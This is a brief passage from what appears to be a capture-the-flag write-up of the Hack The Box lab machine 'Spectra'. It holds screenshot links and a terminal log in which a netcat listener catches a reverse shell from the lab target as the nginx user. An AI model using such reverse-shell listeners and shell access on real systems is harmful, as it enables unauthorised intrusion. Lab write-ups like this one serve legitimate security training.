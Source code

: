 ![Pasted image 20210509002203.png](../../zzz_res/attachments/Pasted_image_20210509002203.png)

![Pasted image 20210509002224.png](../../zzz_res/attachments/Pasted_image_20210509002224.png)

![Pasted image 20210509002243.png](../../zzz_res/attachments/Pasted_image_20210509002243.png)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.229] 44138
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```
